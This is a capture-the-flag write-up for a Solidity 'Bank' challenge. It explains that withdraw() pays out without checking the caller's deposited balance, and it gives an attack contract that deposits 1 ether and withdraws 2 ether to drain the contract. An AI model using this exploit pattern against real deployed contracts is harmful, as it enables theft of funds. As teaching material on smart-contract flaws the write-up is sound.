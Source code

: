 # Bank

## Solution :

To validate this challenge, the user needs to empty the contract's balance.

To do that, he needs to deposit some ethers on his account with the `deposit()` function.

And after that, he needs to call the `withdraw()` function.

The withdraw function, check if the balance of the user if more than `0 ether` and if the balance has enough ethers to send to the user.

If these conditions are true, then the function send the amount of ethers asked to the user without checking if the user has enough ethers on his account.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/easyChalls/Bank.sol";

contract attackBank {
	Bank originalContract;

	constructor(address _originalContract) public {
		originalContract = Bank(_originalContract);
	}

	function exploit() public payable {
		require(msg.value == 1 ether);
		address(originalContract).call.value(1 ether)(abi.encodeWithSignature("deposit()"));
		originalContract.withdraw(2 ether);
	}

}
```